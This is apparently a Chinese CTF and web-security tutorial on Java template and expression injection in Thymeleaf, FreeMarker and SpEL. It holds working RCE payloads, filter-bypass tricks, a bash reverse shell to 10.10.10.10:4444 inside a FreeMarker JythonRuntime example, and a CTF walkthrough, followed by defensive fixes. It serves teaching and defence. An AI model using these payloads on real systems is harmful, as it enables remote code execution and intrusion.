

# ☕ Java 模板引擎与表达式注入：Thymeleaf、FreeMarker 与 SpEL 底层 RCE 深度剖析

> **核心机制**：在 Java Web（尤其是 Spring Boot 企业级架构）中，模板渲染引擎不仅仅是文本替换工具，它们通常深度集成了强大的 **Java 表达式求值器（Expression Evaluator）**。
> 一旦业务代码错误地将用户参数作为视图名称（View Name）或拼接进模板文本，攻击者即可借助 Java 反射机制、类加载器以及上下文内置类，在服务端直接执行底层系统命令！

---

## 0. 基础前置认知与小白扫盲：Java 模板与表达式语言注入

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 什么是 SpEL 表达式？
* SpEL（Spring Expression Language）是 Spring 框架自研的一套功能强大到恐怖的表达式语言。
* 很多程序员在写 Thymeleaf 或 Spring MVC 视图解析时，使用了类似 `__${param}__` 的预处理语法。
* **致命威力**：SpEL 原生支持使用 `T(类名)` 语法加载任意 Java 类！
  * 只要攻击者能控制 SpEL 表达式，直接输入：
    `${T(java.lang.Runtime).getRuntime().exec('whoami')}`
  * Spring 会在解析模板的一瞬间，直接在底层执行系统命令！

---

## 一、Java 模板引擎架构分类与评估矩阵



---

## 二、Thymeleaf SSTI：Spring View 视图名解析穿透

### 1. 漏洞成因：动态视图名与预处理（Preprocessing）

在 Spring Boot + Thymeleaf 应用中，很多控制器设计为根据用户请求参数动态返回对应的模板视图名称：

```java
@Controller
public class ViewController {
    @GetMapping("/page")
    public String renderPage(@RequestParam String lang) {
        // 💥 致命错误：将用户可控的输入直接拼接入返回的视图名称！
        return "views/" + lang + "/index";
        
        // 预期请求：lang=zh -> "views/zh/index.html"
        // 恶意请求：lang=__${payload}__::.x
    }
}
```

#### 🔍 底层触发调用链（Spring MVC 源码剖析）：
1. Controller 返回字符串 `"views/" + lang + "/index"`。
2. Spring MVC 调用 `ThymeleafView.renderFragment()` 进行视图解析。
3. Thymeleaf 内部调用 `StandardExpressionPreprocessor` 处理带有 `__${...}__` 格式的字符串。
4. 双下划线包裹的表达式会被当作 **Spring EL (SpEL)** 提前执行并替换！

---

### 2. Thymeleaf 经典 RCE Payload 与逐参数拆解

#### 🔍 经典命令执行 Payload（带无回显探测与弹计算器）：
```http
GET /page?lang=__${T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")}__::.x HTTP/1.1
```

#### 🔍 带回显 Payload（通过 IOUtils 流读取）：
```http
GET /page?lang=__${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('cat /flag').getInputStream())}__::.x HTTP/1.1
```

#### 逐行语法与参数深度拆解：
| 语法片段 | 作用与底层执行原理 |
| :--- | :--- |
| `__${...}__` | **Thymeleaf 预处理表达式语法**。指示解析器在主解析前先执行花括号内的 SpEL 表达式并将结果放回字符串中 |
| `T(...)` | **SpEL 的静态类标识符**。告诉 SpEL 引擎加载指定的完整类名（必须带全限定包名，如 `java.lang.Runtime`） |
| `.getRuntime()` | 调用 `Runtime` 类的静态方法获取当前运行时的单例对象 |
| `.exec('cat /flag')` | 调用 `java.lang.Runtime.exec(String command)`，在宿主操作系统底层创建子进程执行命令 |
| `.getInputStream()` | 提取被执行命令子进程的标准输出流（`InputStream`） |
| `T(org.apache.commons.io.IOUtils).toString(...)` | 利用 Apache Commons IO 工具类将输入流直接序列化为纯字符串输出到页面 |
| `::.x` | **片段选择器（Fragment Selector）语法**。强制使 Thymeleaf 将前面的表达式作为片段名称解析，避免找不到模板文件时直接抛出 404/500 异常终止执行 |

---

## 三、FreeMarker SSTI：FTL 语法与危险内置类利用

FreeMarker 采用 FTL（FreeMarker Template Language）语法，定界符为 `${...}` 与 `<#...>`。
当后端使用 `StringTemplateLoader` 动态编译用户提交的模板内容时触发。

### 1. 危险内置类实例化：`?new` 语法

FreeMarker 提供了 `?new` 内置操作符，允许模板直接调用某个 Java 类的公有构造函数实例化对象！
在默认配置（未开启严格白名单限制）下，可以直接调用 FreeMarker 自带的实用工具类：

#### (1) `freemarker.template.utility.Execute`（命令执行）
```ftl
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("cat /flag")}
```
* **逐行拆解**：
  * `<#assign ex=...>`：在模板内声明一个变量 `ex`。
  * `"freemarker.template.utility.Execute"?new()`：通过 `?new` 实例化 FreeMarker 官方提供的命令执行类。
  * `${ex("cat /flag")}`：将目标命令作为参数传入其实例，执行并直接输出执行结果回显！

#### (2) `freemarker.template.utility.ObjectConstructor`（任意 Java 类构造）
```ftl
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()>
<#assign pb=ob("java.lang.ProcessBuilder", "cat", "/flag")>
${pb.start().getInputStream()}
```
* **机制分析**：
  * `ObjectConstructor` 能够反射构建任意 Java 对象。
  * 通过反射调用 `new java.lang.ProcessBuilder("cat", "/flag")` 创建进程，完全绕过对 `Execute` 类的单一黑名单拦截！

#### (3) `freemarker.template.utility.JythonRuntime`（Python 解释器混淆）
```ftl
<#assign jr="freemarker.template.utility.JythonRuntime"?new()>
<@jr>
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'")
</@jr>
```

---

## 四、Spring SpEL 表达式引擎独立利用矩阵

SpEL 是许多 Java 模板引擎与框架（Spring Cloud Config、Spring Data REST）的核心求值基础。在单独暴露 SpEL 解析器时：

### 1. 原生命令执行变体
```spel
// 方式 A: Runtime 经典调用
T(java.lang.Runtime).getRuntime().exec("id")

// 方式 B: ProcessBuilder 实例化调用
new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/sh","-c","cat /flag"}).start()

// 方式 C: 反射绕过黑名单（规避包含 "Runtime" 字符串的正则）
T(java.lang.Class).forName("java.lang.Run"+"time").getMethod("getRuntime").invoke(null)
```

### 2. SpEL 回显构造（Java 原生 Stream / Scanner 实现）
无需引入第三方 `IOUtils` 库的原生带回显写法：
```spel
new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat /flag").getInputStream()).useDelimiter("\\A").next()
```
* **参数解析**：
  * `useDelimiter("\\A")`：`\A` 是正则表达式中的“输入字符串起始位置”。设置以此为分隔符意味着 Scanner 会一次性读取流中的**全部字节**直到 EOF（文件结束），非常适合用来完整读取长 Flag！

---

## 五、实战靶场案例复现（CTF 经典赛题）

### 题目背景：Spring Boot 2.x 微服务多语言页面
页面允许通过 URL 访问不同国家语言：`http://target.ctf:8080/lang?code=en`。

#### 后端 Controller 脆弱代码：
```java
@Controller
public class LangController {
    @GetMapping("/lang")
    public String changeLang(@RequestParam("code") String code, HttpServletResponse response) {
        // 限制：code 参数不能包含空格和 runtime 字符串
        if (code.contains(" ") || code.toLowerCase().contains("runtime")) {
            return "error";
        }
        return "lang/" + code;
    }
}
```

### 1. 漏洞分析与过滤审查
* **注入场景**：典型 Thymeleaf View Name 预处理注入。
* **过滤限制**：
  * 禁止空格字符 ` `。
  * 禁止字符串 `"runtime"`（不区分大小写）。
* **应对策略**：
  * 空格替换：使用制表符 `%09`，或者利用 SpEL 字符串拼接 `+`，或者传参给数组避开空格。
  * `"runtime"` 绕过：使用 `java.lang.ProcessBuilder` 代替 `Runtime`，或者利用字符串反射拼接 `T(Class).forName("java.lang.Run"+"time")`。

### 2. 构造攻击 Payload
利用 `ProcessBuilder` 与制表符（`%09`）读取 `/flag` 并回显：
```http
GET /lang?code=__${new%09java.util.Scanner(new%09java.lang.ProcessBuilder('cat','/flag').start().getInputStream()).useDelimiter('\\A').next()}__::.x HTTP/1.1
Host: target.ctf:8080
User-Agent: Mozilla/5.0
```

### 3. HTTP 交互与终端响应
```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8

<html>
<body>
    <h1>Language: flag{thyme1eaf_sp3l_pr3pr0cess_bypass_rce}</h1>
</body>
</html>
```
成功在页面中抓取并回显系统根目录下的敏感 Flag！

---

## 六、防御机制与架构加固

1. **Spring View Name 严格安全规范**：
   * 在使用 Thymeleaf 时，**绝对禁止直接返回动态拼接的视图名称**。
   * 必须使用硬编码的常量视图名，动态数据全部通过 `Model` 或 `ModelAndView` 传递：
     ```java
     // ✅ 安全实践
     @GetMapping("/page")
     public String safePage(@RequestParam String lang, Model model) {
         model.addAttribute("lang", lang);
         return "views/index"; // 固定返回静态模板文件名
     }
     ```
2. **FreeMarker 开启 TemplateClassResolver 严格限制**：
   在 Spring Boot 配置文件中设置：
   ```properties
   spring.freemarker.settings.new_builtin_class_resolver=ALLOWS_NOTHING_RESOLVER
   ```
   * 设置为 `ALLOWS_NOTHING_RESOLVER` 将彻底封杀 `?new` 内置操作符对任何 Java 类的构造能力。
3. **SpEL 安全评估上下文（SimpleEvaluationContext）**：
   若业务必须支持动态 SpEL 表达式求值，严禁使用功能全开的 `StandardEvaluationContext`，必须使用只具备属性访问权限的 `SimpleEvaluationContext`：
   ```java
   // ✅ 仅允许只读数据访问，禁止静态方法与类反射
   EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
   parser.parseExpression(userInput).getValue(context);
   ```

---

## 🔗 相关双向链接
- 上级模块：[[06-SSTI模板注入体系]]
- 前置知识：[[PHP模板引擎注入：Smarty与Twig语法特性及沙箱逃逸]]
- 下一章节：[[04-命令执行与代码执行RCE/常见危险函数与管道符机制剖析]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
